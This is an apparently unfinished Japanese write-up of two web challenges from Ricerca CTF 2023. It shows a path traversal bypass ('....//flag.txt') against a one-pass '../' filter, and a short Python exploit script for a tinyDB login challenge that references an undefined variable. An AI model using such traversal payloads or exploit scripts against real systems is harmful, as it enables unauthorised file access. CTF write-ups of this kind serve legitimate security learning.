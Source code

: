 ```yaml
---
title: "Ricerca CTF writeup - Web初心者の備忘録"
emoji: "❓"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["CTF", "Web"]
published: false
---
```


## はじめに
Ricerca CTF 2023お疲れさまでした。
運営の皆様、参加者の皆様、ありがとうございました。

さて、自分はWeb初心者、CTFほとんど初参加という形でしたが、Web問を二個解けたため、その備忘録と考察を書いていきます。

## 解いたもの

 - Cat Cafe
   - 簡単なFLI問題
 - tinyDB
   - 連想配列で作られたDBの問題

## それぞれの解説

### Cat Cafe

この問題のバックエンドはflaskです。
この問題では、まず以下のようなページが表示されます。

![](/images/cat.png)

ここで猫の画像を右クリックで開くと、以下のようなURLに飛びます。
```url
http://cat-cafe.2023.ricercactf.com:8000/img?f=01.jpg
```

ここで問題のソースコードを読むと、ユーザのクエリを
```py
filename = flask.request.args.get("f", "").replace("../", "")
```
という形で受け付けているのがわかります。
`../`が置換されるため、`....//`というクエリを投げれば`../`に置換されます。

したがって、
```url
http://cat-cafe.2023.ricercactf.com:8000/img?f=....//flag.txt
```

というリクエストを投げると、flagが表示されます。

### tinyDB

この問題のバックエンドはfastifyです。
この問題では、まず以下のようなページが表示されます。

![](/images/tiny.png)

バックエンドはAPIで用意されているため、APIを抜き出すと以下の通りです。

```url
http://tinydb.2023.ricercactf.com:8888/set_user
http://tinydb.2023.ricercactf.com:8888/get_flag
```

それぞれのAPIについて、以下のような挙動を確認しました。

#### set_user

リクエスト
```json
{
    "username": "admin",
    "password": "dummy"
}
```
レスポンス
```
{
    "authId": "admin",
    "authPW": "dummy",
    "grade": "guest"
}
```

#### get_flag

リクエスト
```json
{
    "username": "admin",
    "password": "dummy"
}
```
レスポンス
```
{"flag":"no flag for you :)"}
```



このうち、set_userではユーザの作成、get_flagではユーザの権限テストを主に行っていると推測しました。

ここで問題のソースコードを確認します。
(TODO: 追記)

ここで、作成したエクスプロイトコードを先に掲載します。

```py
import requests
import random 

session = requests.session()

for i in range(10):
    json_data = {
        'username': "admin",
        'password': "dummy",
    }

    res = session.post("http://tinydb.2023.ricercactf.com:8888/set_user", json=json_data, cookies=cookies)
    print(res.text)
    print(res.cookies)
    
    
json_data = {
    'username': 'admin',
    'password': "********************************",
}
res = session.post("http://tinydb.2023.ricercactf.com:8888/get_flag", json=json_data, cookies=cookies)
print(res.text)
print(res.cookies)
```


(TODO: 追記)